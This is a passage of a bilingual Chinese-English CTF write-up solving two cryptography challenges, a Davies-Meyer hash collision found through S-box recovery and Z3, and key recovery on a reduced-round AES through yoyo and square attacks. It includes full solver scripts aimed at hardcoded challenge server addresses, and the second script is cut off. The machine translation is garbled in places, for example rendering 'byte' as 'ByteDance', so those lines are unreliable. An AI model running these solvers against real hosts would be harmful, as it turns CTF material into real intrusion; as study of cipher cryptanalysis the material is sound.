Then we have:

```Plain
H(iv, m) = 0
```

也就是说，只要构造出两个不同的消息 `m1 != m2`，并且它们都满足:

That is, as long as two different messages `m1!= m2` are constructed, and they both satisfy: 

```Plain
E_m(iv) = iv
```

那么这两个消息天然碰撞，因为它们的压缩输出都等于 `0`。

Then these two messages naturally collide because their compressed outputs are both equal to ` 0 `. 

#### **第三步：如何让`E(iv) = iv`** | **Step 3: How to make `E(iv) = iv`** 

设:

Let:

```Plain
x  = (L, R) = split(iv)
Sx = (R, L)
```

如果我们能让前 8 轮置换 `A` 同时满足:

If we can make the first 8 rounds of permutation `A` satisfy simultaneously: 

```Plain
A(x)  = x
A(Sx) = Sx
```

那么:

Then:

```Plain
E(x) = S o A^{-1} o S o A^3(x)
```

因为 `A(x)=x`，所以 `A^3(x)=x`。继续代入:

Since `A(x)=x`, then `A^3(x)=x`. Continuing to substitute:

```Plain
E(x) = S o A^{-1} o S(x)
     = S o A^{-1}(Sx)
     = S(Sx)
     = x
```

于是 `iv` 就成了整套 32 轮加密的固定点，最终:

Thus` iv ` becomes the fixed point of the entire 32-round encryption, and finally:

```Plain
dm_compress(iv, m) = E_m(iv) xor iv = 0
```

这一步非常关键:

This step is crucial: 

- 我们不需要直接解 32 轮

  We don't need to directly solve 32 rounds 

- 只需要解前 8 轮 `A`

  Only the first 8 rounds need to be solved`A`

- 只要 `A` 同时固定 `(L,R)` 和 `(R,L)`，整个 32 轮就自动固定 `iv`

  As long as `A` simultaneously fixes `(L,R)` and `(R,L)`, the entire 32 rounds are automatically fixed `iv`

**第四步：用 SMT 求两组不同的 message words** | **Step 4: Use SMT to find two different sets of message words** 

恢复出 S 盒后，轮函数已经完全已知。未知量只剩 8 个 32-bit 的 message words，也就是:

After the S-box is recovered, the round function is already fully known. The only unknowns are 8 32-bit message words, that is: 

```Plain
K0..K7
```

我们把前 8 轮建成 Z3 约束，要求:

We formulate the first 8 rounds into Z3 constraints, requiring:

```Plain
enc8((L, R),   K0..K7) = (L, R)
enc8((R, L),   K0..K7) = (R, L)
```

总共是两组固定点约束。

There are a total of two sets of fixed point constraints. 

这时通常很快就能求出一组可行解。为了再拿到一组不同解，我在第二次求解时额外加了一个很便宜的约束:

At this point, a set of feasible solutions can usually be quickly obtained. To obtain another different set of solutions, I added an additional very inexpensive constraint during the second solution:

```Plain
LSB(K0) = 0
```

和

and 

```Plain
LSB(K0) = 1
```

分别求一次。这样可以稳定得到两组不同的 `K0..K7`，也就是两个不同的 256-bit message block。

Each is calculated once. This can stably obtain two different sets of ` K0..K7 `, that is, two different 256-bit message blocks. 

#### **完整利用流程** | **Complete utilization process**

整个利用过程可以总结成:

The entire utilization process can be summarized as: 

1. 连接远端并解析 PoW challenge

   Connect to the remote end and parse the PoW challenge 

2. 求解 PoW

   Solve PoW 

3. 读取随机 `IV`

   Read random `IV`

4. 用 `121` 次 `round_core(0, x)` 查询恢复全部 S 盒

   Use `121 `times `round_core(0, x)` queries to recover all S-boxes

5. 用 Z3 解出一组满足固定点条件的 `K0..K7`

   Use Z3 to solve for a set of `K0..K7 that satisfies the fixed-point condition`

6. 改一个最低位约束，再解出第二组不同的 `K0..K7`

   Modify a least significant bit constraint, then solve for the second set of different `K0..K7`

7. 本地验证:

   Local Verification:

```Plain
dm_compress(iv, m1) == dm_compress(iv, m2) == 0
```

1. 提交两个消息块，拿 flag
2. Submit two message blocks to obtain the flag

#### **EXP**

```Python
#!/usr/bin/env python3

import argparse
import base64
import re
import socket
import sys
from typing import Dict, List, Sequence, Tuple

import gmpy2
from z3 import BitVec, BitVecVal, Extract, If, RotateLeft, Solver, ZeroExt, sat

MASK32 = 0xFFFFFFFF
MODULUS = 2**1279 - 1

def rotr32(x: int, r: int) -> int:
    x &= MASK32
    return (x >> r) | ((x << (32 - r)) & MASK32)

def rotl32(x: int, r: int) -> int:
    x &= MASK32
    return ((x << r) & MASK32) | (x >> (32 - r))

def sbox_layer_int(x: int, sboxes: Sequence[Sequence[int]]) -> int:
    y = 0
    for i in range(8):
        nib = (x >> (4 * i)) & 0xF
        y |= (sboxes[i][nib] & 0xF) << (4 * i)
    return y & MASK32

def round_core_int(right: int, subkey: int, sboxes: Sequence[Sequence[int]]) -> int:
    return rotl32(sbox_layer_int((right + subkey) & MASK32, sboxes), 11)

def apply_round_int(state: Tuple[int, int], subkey: int, sboxes: Sequence[Sequence[int]]) -> Tuple[int, int]:
    left, right = state
    return right & MASK32, (left ^ round_core_int(right, subkey, sboxes)) & MASK32

def encrypt_block(iv: int, key_words: Sequence[int], sboxes: Sequence[Sequence[int]]) -> int:
    state = ((iv >> 32) & MASK32, iv & MASK32)
    schedule = list(key_words) * 3 + list(reversed(key_words))
    for subkey in schedule:
        state = apply_round_int(state, subkey, sboxes)
    return ((state[0] & MASK32) << 32) | state[1]

def dm_compress(iv: int, key_words: Sequence[int], sboxes: Sequence[Sequence[int]]) -> int:
    return encrypt_block(iv, key_words, sboxes) ^ iv

def encode_words(words: Sequence[int]) -> str:
    return "".join(f"{word & MASK32:08x}" for word in words)

def decode_number(enc: str) -> int:
    return int.from_bytes(base64.b64decode(enc.encode()), "big")

def solve_pow(challenge: str) -> str:
    _, diff_enc, x_enc = challenge.split(".")
    diff = decode_number(diff_enc)
    x = decode_number(x_enc)
    exponent = (MODULUS + 1) // 4
    y = x
    for _ in range(diff):
        y = int(gmpy2.powmod(y, exponent, MODULUS))
        y ^= 1
    size = (y.bit_length() // 24) * 3 + 3
    encoded = base64.b64encode(y.to_bytes(size, "big")).decode()
    return f"s.{encoded}"

class Remote:
    def __init__(self, host: str, port: int):
        self.sock = socket.create_connection((host, port), timeout=10)
        self.sock.settimeout(10)
        self.buf = bytearray()

    def close(self) -> None:
        try:
            self.sock.close()
        except OSError:
            pass

    def send(self, data: str) -> None:
        self.sock.sendall(data.encode())

    def recv_until(self, marker: bytes) -> bytes:
        while marker not in self.buf:
            chunk = self.sock.recv(65536)
            if not chunk:
                raise EOFError("connection closed")
            self.buf.extend(chunk)
        idx = self.buf.index(marker) + len(marker)
        out = bytes(self.buf[:idx])
        del self.buf[:idx]
        return out

    def recv_main_menu(self) -> bytes:
        return self.recv_until(b"[3] quit\n> ")

    def recv_query_batch(self, expected_cores: int) -> bytes:
        pattern = re.compile(rb"core = ([0-9a-fA-F]{8})")
        while True:
            text = bytes(self.buf)
            cores = pattern.findall(text)
            if len(cores) >= expected_cores and text.endswith(b"> "):
                out = text
                self.buf.clear()
                return out
            chunk = self.sock.recv(65536)
            if not chunk:
                raise EOFError("connection closed while waiting for query batch")
            self.buf.extend(chunk)

    def recv_all(self) -> bytes:
        chunks = [bytes(self.buf)]
        self.buf.clear()
        while True:
            try:
                chunk = self.sock.recv(65536)
            except socket.timeout:
                break
            if not chunk:
                break
            chunks.append(chunk)
        return b"".join(chunks)

def recover_sboxes(core_map: Dict[int, int]) -> List[List[int]]:
    base = rotr32(core_map[0], 11)
    sboxes = [[0] * 16 for _ in range(8)]
    for i in range(8):
        sboxes[i][0] = (base >> (4 * i)) & 0xF
        for v in range(1, 16):
            x = v << (4 * i)
            y = rotr32(core_map[x], 11)
            sboxes[i][v] = (y >> (4 * i)) & 0xF
    return sboxes

def sbox_lut(nib, table: Sequence[int]):
    expr = BitVecVal(table[0], 4)
    for v in range(1, 16):
        expr = If(nib == BitVecVal(v, 4), BitVecVal(table[v], 4), expr)
    return expr

def sbox_layer_bv(x, sboxes: Sequence[Sequence[int]]):
    y = BitVecVal(0, 32)
    for i in range(8):
        nib = Extract(4 * i + 3, 4 * i, x)
        y = y | (ZeroExt(28, sbox_lut(nib, sboxes[i])) << (4 * i))
    return y

def round_core_bv(right, subkey, sboxes: Sequence[Sequence[int]]):
    return RotateLeft(sbox_layer_bv(right + subkey, sboxes), 11)

def apply_round_bv(state, subkey, sboxes: Sequence[Sequence[int]]):
    left, right = state
    return right, left ^ round_core_bv(right, subkey, sboxes)

def enc8_bv(state, keys, sboxes: Sequence[Sequence[int]]):
    cur = state
    for key in keys:
        cur = apply_round_bv(cur, key, sboxes)
    return cur

def solve_keyset(iv: int, sboxes: Sequence[Sequence[int]], key0_lsb: int) -> List[int]:
    left0 = (iv >> 32) & MASK32
    right0 = iv & MASK32
    keys = [BitVec(f"k_{key0_lsb}_{i}", 32) for i in range(8)]
    solver = Solver()
    solver.set(timeout=8000)

    a_left, a_right = enc8_bv((BitVecVal(left0, 32), BitVecVal(right0, 32)), keys, sboxes)
    b_left, b_right = enc8_bv((BitVecVal(right0, 32), BitVecVal(left0, 32)), keys, sboxes)

    solver.add(a_left == BitVecVal(left0, 32))
    solver.add(a_right == BitVecVal(right0, 32))
    solver.add(b_left == BitVecVal(right0, 32))
    solver.add(b_right == BitVecVal(left0, 32))
    solver.add(Extract(0, 0, keys[0]) == BitVecVal(key0_lsb, 1))

    if solver.check() != sat:
        raise RuntimeError(f"solver failed for key0 bit {key0_lsb}")

    model = solver.model()
    return [model[key].as_long() & MASK32 for key in keys]

def parse_iv(text: str) -> int:
    match = re.search(r"IV = ([0-9a-fA-F]{16})", text)
    if not match:
        raise ValueError("IV not found")
    return int(match.group(1), 16)

def parse_pow(text: str) -> str:
    match = re.search(r"solve (s\.[A-Za-z0-9+/=]+\.[A-Za-z0-9+/=]+)", text)
    if not match:
        raise ValueError("PoW challenge not found")
    return match.group(1)

def batch_query_values() -> List[int]:
    values = [0]
    for i in range(8):
        for v in range(1, 16):
            values.append(v << (4 * i))
    return values

def run(host: str, port: int) -> str:
    conn = Remote(host, port)
    try:
        preface = conn.recv_until(b"Solution? ").decode(errors="replace")
        pow_chal = parse_pow(preface)
        conn.send(solve_pow(pow_chal) + "\n")

        menu = conn.recv_main_menu().decode(errors="replace")
        iv = parse_iv(menu)

        values = batch_query_values()
        query_blob = "".join(f"1\n0\n{value:x}\n" for value in values)
        conn.send(query_blob)

        after_queries = conn.recv_query_batch(len(values)).decode(errors="replace")
        cores = [int(x, 16) for x in re.findall(r"core = ([0-9a-fA-F]{8})", after_queries)]
        if len(cores) != len(values):
            raise RuntimeError(f"expected {len(values)} core lines, got {len(cores)}")

        core_map = dict(zip(values, cores))
        sboxes = recover_sboxes(core_map)

        keyset0 = solve_keyset(iv, sboxes, 0)
        keyset1 = solve_keyset(iv, sboxes, 1)
        if keyset0 == keyset1:
            raise RuntimeError("solver returned identical keysets")

        if dm_compress(iv, keyset0, sboxes) != dm_compress(iv, keyset1, sboxes):
            raise RuntimeError("collision verification failed")

        msg1 = encode_words(keyset0)
        msg2 = encode_words(keyset1)
        conn.send(f"2\n{msg1}\n{msg2}\n")

        result = (conn.recv_all()).decode(errors="replace")
        return preface + menu + after_queries + result
    finally:
        conn.close()

def main() -> int:
    parser = argparse.ArgumentParser(description="Solve the Ghost 919 challenge.")
    parser.add_argument("host", nargs="?", default="43.200.71.14")
    parser.add_argument("port", nargs="?", type=int, default=13479)
    args = parser.parse_args()

    output = run(args.host, args.port)
    sys.stdout.write(output)
    return 0

if __name__ == "__main__":
    raise SystemExit(main())
```

#### **Exploit 核心代码片段** | **Exploit Core Code Snippet**

**1. 恢复 S 盒**

**Restore the S-box**

```Python
def recover_sboxes(core_map):
    base = rotr32(core_map[0], 11)
    sboxes = [[0] * 16 for _ in range(8)]
    for i in range(8):
        sboxes[i][0] = (base >> (4 * i)) & 0xF
        for v in range(1, 16):
            x = v << (4 * i)
            y = rotr32(core_map[x], 11)
            sboxes[i][v] = (y >> (4 * i)) & 0xF
    return sboxes
```

**2. Z3 约束 8 轮固定点**

**Z3 Constraints for 8-Round Fixed Points**

```Python
a_left, a_right = enc8_bv((BitVecVal(left0, 32), BitVecVal(right0, 32)), keys, sboxes)
b_left, b_right = enc8_bv((BitVecVal(right0, 32), BitVecVal(left0, 32)), keys, sboxes)

solver.add(a_left == BitVecVal(left0, 32))
solver.add(a_right == BitVecVal(right0, 32))
solver.add(b_left == BitVecVal(right0, 32))
solver.add(b_right == BitVecVal(left0, 32))
```

**3. 通过一个 bit 约束拿两组不同解**

**Obtain two different sets of solutions through a bit constraint**

```Python
solver.add(Extract(0, 0, keys[0]) == BitVecVal(key0_lsb, 1))
```

#### **总结** | **Summary**

这题的利用链条很顺:

The utilization chain of this problem is very smooth: 

- 用 `121` 次查询恢复 S 盒

  Recover the S-box using ` 121 ` queries 

- 把 32 轮结构压缩成对 8 轮固定点的约束

  Compress the 32-round structure into constraints on 8-round fixed points 

- 用 Z3 找两组不同 key words

  Use Z3 to find two different sets of key words 

- 让两个不同消息都把 Davies-Meyer 输出打成 `0`

  Let both different messages hash the Davies-Meyer output into `0`

最终就得到了一个非常稳定的碰撞构造。

Finally, a very stable collision structure is obtained.

### aes5

#### **总体思路** | **Overall Approach**

整题可以拆成 4 个阶段:

The entire question can be broken down into 4 stages: 

1. 用 yoyo / super-Sbox 视图恢复 `K0`

   Recover using yoyo / super-Sbox view`K0`

2. 已知 `K0` 后，把前置 whitening 剥掉，用标准 square 恢复 `K5`

   After knowing ` K0 `, peel off the pre - whitening and restore ` K5  using the standard square method`

3. 已知 `K0, K5` 后，用“反向 square”恢复 `K1`

   After knowing `K0, K5 `, use "reverse square" to restore `K1`

4. 已知 `K0, K1, K5` 后，把中间压成一个 2 轮结构，恢复 `K4' = MC^{-1}(K4)` 和 `K2`，最后由单个样本直接算出 `K3`

   After knowing ` K0, K1, K5 `, compress the middle into a 2-round structure, recover ` K4' = MC^{-1}(K4) ` and ` K2 `, and finally calculate ` K3  directly from a single sample`

最终再还原 `K4 = MC(K4')`，提交六组 round key 即可。

Finally, restore `K4 = MC(K4')`, and submit six sets of round keys.

#### **记号约定** | **Notation Convention** 

为了写得紧凑一点，记:

To write more compactly, denote: 

```Plain
A(x) = MC(SR(SB(x)))
B(x) = SR(SB(x))
```

那么加密可以写成:

Then encryption can be written as: 

```Plain
s0 = P xor K0
s1 = A(s0) xor K1
s2 = A(s1) xor K2
s3 = A(s2) xor K3
s4 = A(s3) xor K4
C  = B(s4) xor K5
```

#### **1. 用 yoyo / super-Sbox 恢复`K0`** | **1. Recover `K0` using yoyo / super-Sbox**

##### **1.1 先把 oracle 改写成 super-Sbox 视图** | **1.1 First rewrite the oracle into a super-Sbox view**

关键变换不是一开始直觉上去包 `MC^{-1}`，而是先把 `SR` 处理掉:

The key transformation is not to intuitively wrap `MC^{-1}` at the beginning, but to first handle `SR`: 

```Plain
E_super(x) = SR^{-1}( E_std( SR^{-1}(x) ) )
D_super(y) = SR( D_std( SR(y) ) )
```

在这个视图下，恢复出来的不是直接的 `K0`，而是:

Under this view, what is restored is not the direct `K0`, but:

```Plain
K0' = SR(K0)
```

最后再做一次 `SR^{-1}` 就能得到真实 `K0`。

Do `SR ^ {-1} `again to get the real `K0 `.

这一步的好处是: yoyo 攻击里 32-bit word 的“super-Sbox 结构”会非常干净。

The advantage of this step is that the "super-Sbox structure" of the 32-bit word in the yoyo attack will be very clean. 

##### **1.2 用 yoyo 恢复`K0'` 的第一个 word** | **1.2 Use yoyo to restore the first word of `K0'`**

先定义 `SimpleSwap`:

First, define `SimpleSwap`: 

- 把 128 bit 状态按 4 个 32-bit word 切开

  Cut the 128-bit state into 4 32-bit words 

- 比较两个状态 `x0, x1`

  Compare two states ` x0, x1 `

- 从左到右找到第一个不同的 word

  Find the first different word from left to right

- 把 `x1` 的这个 word 替换成 `x0` 对应的 word

  Replace the word of `x1` with the corresponding word of `x0`

然后构造初始 pair:

Then construct the initial pair: 

```Plain
p0 = (0, i, 0, 0) || 0^12
p1 = (1, 1 xor i, 0, 0) || 0^12
```

其中 `i` 是我们要枚举的一个字节。

Among them, `i` is a ByteDance that we need to enumerate.

对每个 `i`，做 yoyo 迭代:

For each `i`, perform the yoyo iteration:

```Plain
c0, c1   = E_super(p0), E_super(p1)
c00, c01 = SimpleSwap(c0, c1), SimpleSwap(c1, c0)
p00, p01 = D_super(c00), D_super(c01)
p0, p1   = SimpleSwap(p00, p01), SimpleSwap(p01, p00)
```

如果 `i = K0'[0] xor K0'[1]`，那么第一个 32-bit word 会落到一个 super-Sbox 关系上。

If ` i = K0'[0] xor K0'[1] `, then the first 32-bit word will fall into a super-Sbox relationship. 

记某次迭代得到的两个 32-bit word 为 `a = a0 a1 a2 a3`、`b = b0 b1 b2 b3`。  

Let the two 32-bit words obtained in a certain iteration be `a = a0 a1 a2 a3`, `b = b0 b1 b2 b3`. 

正确 key 会满足:

The correct key will satisfy: 

```Plain
S(a0 xor k0) xor S(b0 xor k0)
xor S(a1 xor k1) xor S(b1 xor k1)
xor 2 * (S(a2 xor k2) xor S(b2 xor k2))
xor 3 * (S(a3 xor k3) xor S(b3 xor k3))
= 0
```

又因为这里有 `k1 = k0 xor i`，所以未知量实际上只剩 3 个字节。

Also, since there is `k1 = k0 xor i`, the number of unknowns actually reduces to 3 ByteDance.

实现时我做了一个很小的 meet-in-the-middle:

When implementing, I did a very small meet-in-the-middle: 

- 预处理 `k2` 对应的 `2 * Δ2`

  Preprocessing`k2` corresponding to `2 * Δ2`

- 预处理 `k3` 对应的 `3 * Δ3`

  Preprocessing`k3` corresponding to `3 * Δ3`

- 枚举 `k0`

  Enumerate`k0`

- 令 `k1 = k0 xor i`

- 用 5 组 yoyo pair 的约束求交

  Find the intersection using the constraints of 5 groups of yoyo pairs

如果某个 `i` 最后只剩唯一候选，那么就拿到了 `K0'` 的第一个 32-bit word。

If a `i` has only one candidate left, then we obtain the first 32-bit word of `K0'`. 

在我的成功会话里，这一步很快就命中了:

In my successful session, this step was quickly hit: 

```Plain
i = 5
```

所以只花了:

So it only cost: 

```Plain
6 * 16 = 96 queries
```

这里的 `16` 来自每个 `i` 需要 4 次 yoyo 迭代，每次迭代 2 次加密 + 2 次解密。

The ` 16 ` here comes from each ` i ` requiring 4 yoyo iterations, with 2 encryptions + 2 decryptions per iteration. 

##### **1.3 已知第一个 word 后，恢复剩下三个 word** | **1.3 After knowing the first word, recover the remaining three words**

拿到 `K0'` 的第一个 word 后，可以反过来构造一个“定制的” yoyo pair，使第一个 word 的输入差分是我们想要的形式。

After obtaining ` the first word of K0' `, we can construct a "customized" yoyo pair in reverse, so that the input difference of the first word is in the form we want. 

令:

Let:

```Plain
a' = 00000000
b' = 01000000
```

把它们通过 `MC^{-1}` 和 `S^{-1}` 映射回 super 视图的输入，并异或上已知的第一个 word，就能造出一组新的起始 pair。

By mapping them back to the input of the super view through `MC^{-1}` and `S^{-1}`, and then XORing with the known first word, a new set of starting pairs can be created. 

之后继续跑几轮 yoyo。对剩余的第 `w` 个 32-bit word，会出现下面的比例关系:

After that, continue running several rounds of yoyo. For the remaining `w` 32-bit words, the following proportional relationship will occur: 

```Plain
S(a0 xor k0) xor S(b0 xor k0) = alpha0 * t
S(a1 xor k1) xor S(b1 xor k1) = alpha1 * t
S(a2 xor k2) xor S(b2 xor k2) = alpha2 * t
S(a3 xor k3) xor S(b3 xor k3) = alpha3 * t
```

其中 `alpha` 来自 `InvMixColumns` 的对应行:

where ` alpha ` comes from ` InvMixColumns ` corresponding row: 

```Plain
word 1: [11, 14,  9, 13]
word 2: [13, 11, 14,  9]
word 3: [ 9, 13, 11, 14]
```

于是可以:

Therefore, we can:

1. 枚举第一个字节猜测 `g0`

   Enumerate the first ByteDance guess`g0`

2. 用它推出公共尺度 `t`

   Use it to introduce a common scale `t`

3. 对另外三个字节，只保留能满足比例关系的猜测

   For the other three ByteDance, only keep the guesses that can satisfy the proportional relationship 

4. 多组 yoyo pair 求交

   Intersection of multiple sets of yoyo pairs

这样就能把 `K0'` 的剩余 3 个 word 全部唯一恢复出来，最后做一次:

This way, we can uniquely recover all the remaining 3 words of ` K0' `, and finally perform one operation: 

```Plain
K0 = SR^{-1}(K0')
```

#### **2. 已知`K0` 后，用 square 恢复 `K5`** | **2. After obtaining `K0`, use square to recover `K5`**

把第 0 轮 whitening 剥掉后，相当于得到一个标准的 4 轮 AES 结构。

After stripping off the 0th round of whitening, it is equivalent to obtaining a standard 4-round AES structure. 

定义一个新的加密 oracle:

Define a new encryption oracle: 

```Plain
Enc4(u) = E( K0 xor A^{-1}(u) )
```

为什么这么定义?  

Why is it defined this way? 

因为真实加密第一步是:

Because the first step of real encryption is:

```Plain
s0 = P xor K0
```

如果让:

If we let: 

```Plain
P = K0 xor A^{-1}(u)
```

那么第一轮之后的输入就正好变成了我们想要控制的 `u`。

Then the input after the first round becomes exactly what we want to control `u`. 

##### **2.1 标准 square 判定** | **2.1 Standard Square Determination**

取一个单字节 active 的 lambda set:

Take a single ByteDance active lambda set: 

```Plain
u_x = only byte p equals x, other bytes = 0
```

查询 256 个:

Query 256:

```Plain
c_x = Enc4(u_x)
```

对最后一轮某个字节位置 `j` 和猜测 `k`，如果 `k = K5[j]`，那么:

For a certain byte position `j` and guess `k` in the last round, if `k = K5[j]`, then:

```Plain
xor_x InvSbox(c_x[j] xor k) = 0
```

这就是标准 4-round AES 的 square 性质。

This is the square property of the standard 4-round AES. 

我这里用了 2 到 3 组 lambda set 做交集:

Here, I used 2 to 3 groups of lambda sets to find the intersection: 

- 大多数 session 下 2 组就能唯一

  Under most sessions, 2 groups are sufficient to be unique

- 少数 session 需要第 3 组

  A few sessions require Group 3 

远程成功会话里，`K5` 用了 2 组，正好是:

In the remote successful session, ` K5 ` used 2 groups, exactly: 

```Plain
512 queries
```

#### **3. 已知`K0, K5` 后，用“反向 square”恢复 `K1`** | **3. After knowing `K0, K5`, use "reverse square" to recover `K1`**

这一步和上一节是完全对称的，只不过方向反过来了。

This step is completely symmetric to the previous section, except that the direction is reversed. 

我们想把解密 oracle 包装成“从 round 1 之后看进去”的样子。

We want to package the decryption oracle to look like "looking in from after round 1".

定义:

Definition:

```Plain
Dec4(c) = A( D(c) xor K0 )
```

再人为选择最后一轮 AddRoundKey 之前的状态 `t3`:

Artificially select the state before the last round of AddRoundKey `t3`: 

```Plain
c = B(t3) xor K5
```

这样查询解密后，就能把 `t3` 拉回 round 1 之后的视图。

After querying and decrypting in this way, we can pull `t3` back to the view after round 1. 

仍然取一个单字节 active 的 lambda set，对某个字节位置 `j` 和猜测 `k`，如果 `k = K1[j]`，则:

Still take a single-byte active lambda set, for a certain byte position `j` and guess `k`, if `k = K1[j]`, then:

```Plain
xor_x Sbox(u_x[j] xor k) = 0
```

这里的 `u_x` 就是包装后的 `Dec4(c_x)` 输出。

Here `u_x` is the output of the wrapped `Dec4(c_x)`. 

同样地:

Similarly: 

- 2 组经常就够

  2 groups are often sufficient

- 不够就补第 3 组

  If it's not enough, supplement with Group 3 

远程成功会话中，`K1` 也是:

In a successful remote session, ` K1 ` is also: 

```Plain
512 queries
```

#### **4. 把中间压成 2 轮结构，恢复`K4'` 和 `K2`** | **4. Press the middle part into a 2-wheel structure, and restore `K4'` and `K2`**

有了 `K0, K1, K5` 以后，可以把中间三轮重新参数化，压成一个更好打的 2 轮结构。

After having `K0, K1, K5`, the middle three rounds can be reparameterized and compressed into a more manageable two-round structure.

定义:

Definition:

```Plain
K4' = MC^{-1}(K4)
```

然后构造新 oracle:

Then construct a new oracle: 

```Plain
Enc2(a) = MC^{-1}( InvB( E( K0 xor InvA(InvA(a) xor K1) ) xor K5 ) )
```

它等价于:

It is equivalent to: 

```Plain
y = B( A(a xor K2) xor K3 ) xor K4'
```

于是中间只剩 2 个未知 round key:

So there are only 2 unknown round keys left in the middle: 

- 第一轮前的 `K2`

  Before the first round` K2 `

- 最后一轮的 `K4'`

  Final Round of `K4'`

`K3` 被夹在中间，最后可以单独算出来。

`K3` is sandwiched in the middle and can finally be calculated separately.

#### **5. 用“归一化 trace”恢复`K4'`** | **5. Restore `K4'` using "normalized trace"**

##### **5.1 观察结构** | **5.1 Observation Structure**

在 `Enc2(a)` 里，如果令 `a` 只有 1 个字节 active，那么:

In ` Enc2(a) `, if we let ` a ` have only 1 ByteDance active, then: 

```Plain
a xor K2
```

经过一轮 `A = MC(SR(SB(.)))` 之后，进入最终 `B` 之前的状态只会有 **一整列 active**。

After a round of `A = MC(SR(SB(.)))`, the state before entering the final `B` will only have  **a whole column of active** . 

设这一列 4 个字节是:

Suppose this sequence of 4 ByteDance is: 

```Plain
alpha0 * t + c0
alpha1 * t + c1
alpha2 * t + c2
alpha3 * t + c3
```

其中 `alpha` 来自 `MixColumns` 的对应行，`t` 随 active byte 变化。

Among them, `alpha` comes from the corresponding row of `MixColumns`, and `t` varies with the active byte.

经过最终 `B = SR(SB(.))` 和异或 `K4'` 后，这一列会被 `SR` 打散到 4 个已知输出位置。

After the final `B = SR(SB(.))` and XOR `K4'`, this column will be `SR` scattered to 4 known output positions.

##### **5.2 正确 key byte 的 trace 一定能对齐** | **5.2 Traces of the correct key ByteDance must be aligned**

对于某个受影响的输出字节位置 `j`，如果猜测 `k = K4'[j]` 正确，那么:

For a certain affected output ByteDance position `j`, if the guess `k = K4'[j]` is correct, then:

```Plain
InvSbox(y[j] xor k)
```

会回到上一层的线性表达式。

will return to the linear expression of the previous level. 

取基准样本 `x = 0`，对所有 `x != 0` 做差分并除掉对应系数:

Take the reference sample `x = 0`, perform differencing on all `x!= 0` and divide by the corresponding coefficient: 

```Plain
trace_j(k)[x] =
    (InvSbox(y_x[j] xor k) xor InvSbox(y_0[j] xor k)) / alpha_j
```

那么同一列对应的 4 个输出位置，正确 key 下这 4 条 trace 必须完全相同。

Then, for the 4 output positions corresponding to the same column, these 4 traces must be exactly the same under the correct key. 

错误猜测几乎不可能满足这个条件。

Erroneous guesses can hardly meet this condition.

实现上就是:

In implementation, it is: 

1. 固定一个 active byte 位置 `p`

   Fix an active ByteDance position ` p `

2. 跑满 `x = 0..255`

   Run through`x = 0..255`

3. 对该列的 4 个输出位置分别枚举 256 个 key byte

   Enumerate 256 key bytes for each of the 4 output positions in this column 

4. 把每个猜测映射成一条“归一化 trace”

   Map each guess to a "normalized trace" 

5. 求 4 个位置 trace 的公共交集

   Find the common intersection of the traces at 4 positions

一次 active byte 可以恢复这一列打散后的 4 个 `K4'` 字节。  

One active byte can recover the 4 ` K4' ` ByteDance bytes after this column is scrambled. 

对 `p = 0,1,2,3` 分别做一次，刚好把 16 个字节全部恢复。

Do it once for ` p = 0, 1, 2, 3 ` respectively, and all 16 ByteDance will be recovered. 

这一步固定消耗:

Fixed consumption for this step:

```Plain
4 * 256 = 1024 queries
```

#### **6. 对称地恢复`K2`** | **6. Symmetrically restore `K2`**

有了 `K4'` 以后，从解密方向也可以构造一个对应的 2 轮视图。

With `K4'`, a corresponding 2-round view can also be constructed from the decryption direction.

我在脚本里定义了一个对称的包装:

I defined a symmetric wrapper in the script: 

```Plain
Dec2(y) = A( A( D( B(MC(y)) xor K5 ) xor K0 ) xor K1 )
```

如果把输入选成:

If the input is selected as: 

```Plain
y = B(s2) xor K4'
```

其中 `s2` 只有 1 个字节 active，那么 `Dec2(y)` 会把我们带回到第一轮 `SubBytes` 之前的视图。  

If ` s2 ` has only 1 ByteDance active, then ` Dec2 (y) ` will take us back to the view before the first round ` SubBytes `. 

这时和上一节完全对称，只不过:

This is completely symmetric to the previous section, except that: 

- 用的是 `Sbox` 而不是 `InvSbox`

  uses` Sbox ` instead of ` InvSbox `

- 系数来自 `InvMixColumns` 的一行

  The coefficients come from ` a row of InvMixColumns ` 

具体地，令 `u_x = Dec2(y_x)`，对受影响的 4 个位置 `j`，正确猜测 `k = K2[j]` 时:

Specifically, let `u_x = Dec2(y_x)`, for the 4 affected positions `j`, when correctly guessing `k = K2[j]`: 

```Plain
trace_j(k)[x] =
    (Sbox(u_x[j] xor k) xor Sbox(u_0[j] xor k)) / beta_j
```

这 4 条归一化 trace 也必须一致。

These 4 normalized traces must also be consistent. 

按 4 个 column 各做一次，就能把 `K2` 的 16 个字节恢复出来。

By performing the operation once for each of the 4 columns, we can recover the 16 ByteDance of ` K2 `. 

这一步也是:

This step is also: 

```Plain
4 * 256 = 1024 queries
```

#### **7. 由单个样本直接算出`K3`** | **7. Calculate `K3` directly from a single sample**

此时已经知道:

At this point, we already know:

- `K0`
- `K1`
- `K2`
- `K4'`
- `K5`

而 2 轮结构满足:

The two-round structure satisfies: 

```Plain
y = B( A(a xor K2) xor K3 ) xor K4'
```

于是直接移项即可:

Then, simply move the terms directly: 

```Plain
InvB(y xor K4') = A(a xor K2) xor K3
K3 = InvB(y xor K4') xor A(a xor K2)
```

随便取之前恢复 `K4'` 时留下的一组 `(a, y)` 样本，就能立刻得到 `K3`。

Randomly select a set of `(a, y)` samples left when restoring `K4'` previously, and you can immediately obtain `K3`.

最后再还原:

Finally, restore:

```Plain
K4 = MC(K4')
```

六组 round key 全部齐活。

All six sets of round keys are complete.

#### **8. 查询复杂度** | **8. Query Complexity**

理想成功 session 的查询量大致是:

The approximate number of queries for an ideal successful session is: 

- `K0`:
  - 首 word: `16 * (i + 1)`
  - 剩余 3 个 word: `20`
  - 3 remaining words: `20`
- `K5`: `512` 或 `768`
- `K5`: `512` or `768`
- `K1`: `512` 或 `768`
- `K1`: `512` or `768`
- `K4'`: `1024`
- `K2`: `1024`

我最终命中的那次远程会话是:

The remote session I finally hit was: 

```Plain
K0  : 116
K5  : 512
K1  : 512
K4' : 1024
K2  : 1024
----------------
total = 3188
```

完全在 `4096` 限制内。

Completely within the `4096` limit.

#### **9. 脚本说明** | **9. Script Description**

完整利用脚本

Fully utilize the script 

```Python
import argparse
import collections
import itertools
import random
import socket
import sys
import time
import types
from dataclasses import dataclass
from typing import Dict, Iterable, List, Optional, Sequence, Tuple

flagmod = types.ModuleType("flag")
flagmod.flag = "dummy"
sys.modules.setdefault("flag", flagmod)

import aes5

DEFAULT_ENDPOINTS = [
    ("54.181.1.253", 13337),
    ("3.38.204.195", 13337),
    ("15.164.176.103", 13337),
]

QUERY_LIMIT = 4096
SBOX = aes5.SBOX
